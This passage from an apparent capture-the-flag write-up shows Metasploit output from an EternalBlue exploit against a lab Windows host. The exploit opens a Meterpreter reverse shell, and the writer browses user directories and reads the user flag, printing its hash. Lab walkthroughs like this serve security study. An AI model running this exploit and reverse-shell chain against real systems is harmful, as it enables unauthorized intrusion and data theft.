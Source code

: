 ```shell-session
[+] 10.129.199.202:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.199.202:445 - Sending egg to corrupted connection.
[*] 10.129.199.202:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.129.199.202
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.199.202:49161) at 2023-04-24 22:40:35 +0100
[+] 10.129.199.202:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.199.202:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.199.202:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

(Meterpreter 1)(C:\Windows\system32) >
```

Nice! We have a shell. Now we can set about extracting the flags.

```shell-session
(Meterpreter 1)(C:\Windows\system32) > cd ../..
(Meterpreter 1)(C:\) > cd Users
(Meterpreter 1)(C:\Users) > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  8192  dir   2017-07-21 07:56:36 +0100  Administrator
040777/rwxrwxrwx  0     dir   2009-07-14 06:08:56 +0100  All Users
040555/r-xr-xr-x  8192  dir   2009-07-14 08:07:31 +0100  Default
040777/rwxrwxrwx  0     dir   2009-07-14 06:08:56 +0100  Default User
040555/r-xr-xr-x  4096  dir   2011-04-12 08:51:29 +0100  Public
100666/rw-rw-rw-  174   fil   2009-07-14 05:54:24 +0100  desktop.ini
040777/rwxrwxrwx  8192  dir   2017-07-14 14:45:53 +0100  haris

(Meterpreter 1)(C:\Users) >
```

Great, so we have some of the user directories we saw before in the `smbclient`
session, along with a few new ones. Let's get the flags from the `haris` and
`Administrator` users:


```shell-session
(Meterpreter 1)(C:\Users) > cd haris
(Meterpreter 1)(C:\Users\haris) > cd Desktop
(Meterpreter 1)(C:\Users\haris\Desktop) > ls
Listing: C:\Users\haris\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-15 08:58:32 +0100  desktop.ini
100444/r--r--r--  34    fil   2023-04-24 22:19:48 +0100  user.txt

(Meterpreter 1)(C:\Users\haris\Desktop) > cat user.txt
539a6c882d13b2aac303a109e16a90bb
(Meterpreter 1)(C:\Users\haris\Desktop) > cd ../..
(Meterpreter 1)(C:\Users) > cd Administrator
(Meterpreter 1)(C:\Users\Administrator) > cd Desktop
(Meterpreter 1)(C:\Users\Administrator\Desktop) > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-21 07:56:40 +0100  desktop.ini
100444/r--r--r--  34    fil   2023-04-24 22:19:48 +0100  root.txt

```